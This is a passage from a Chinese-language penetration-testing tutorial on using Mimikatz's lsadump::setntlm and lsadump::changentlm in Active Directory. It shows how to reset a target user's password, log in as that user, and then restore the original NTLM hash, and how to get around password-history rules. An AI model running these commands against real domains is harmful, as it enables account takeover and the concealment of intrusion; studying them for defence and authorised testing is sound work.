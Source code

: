 由于我们是域管了，基本上对目标用户都是有重置密码权限的，然后利用以下命令重置密码：

``` plain
lsadump::setntlm /server:<DC's_IP_or_FQDN> /user:<username> /password:<new_password>
```

![1622521548479.png](https://i.loli.net/2021/06/29/9D1ClbOrFmw3L64.png)

登录目标系统以后，再通过以下命令还原密码：

``` plain
lsadump::setntlm /server:<DC's_IP_or_FQDN> /user:<username> /ntlm:<Original_Hash>
```

![1622521589415.png](https://i.loli.net/2021/06/29/R4SeIkZDb3nOc2M.png)



### 2. ChangeNTLM

#### (1) 利用条件

需要对目标用户有`Change Password`权限，但该权限一般是`Everyone`拥有的，所以基本上拿到目标用户的hash/密码后都可以进行密码更改

![1622903610760.png](https://i.loli.net/2021/06/29/MEkYBlwSaNRtTQG.png)


（注意此处的更改密码权限并不是说可以直接任意改用户密码，而是在知道用户的密码的情况下更改一个新密码）

该方法受到域内密码策略的限制，比如域内默认的**“密码最短使用期限”**为1天，因此用户每天只能修改一次自己的密码

而且如果域内存在**“强制密码历史”**规则时，该方法在恢复原密码时便不能成功，但如果没有**“密码最短使用期限”**的限制的话，我们多修改几次密码直到原密码在历史中清除，然后再修改为原密码即可

![1622904968807.png](https://i.loli.net/2021/06/29/VKkNTJDEhbAGuia.png)


#### (2) Demo

修改用户test2密码：

``` plain
lsadump::changentlm /server:<DC's_IP_or_FQDN> /user:<username> /old:<current_hash> /newpassword:<newpassword>
```

![1622904297054.png](https://i.loli.net/2021/06/29/YfohsJPgOySxlB6.png)


恢复原密码：

``` plain
lsadump::changentlm /server:<DC's_IP_or_FQDN> /user:<username> /oldpassword:<current_password_plain_text> /new:<original_hash>
```

![1622905334293.png](https://i.loli.net/2021/06/29/Dx1rFkKOWBudqCH.png)


## 0x01 原理
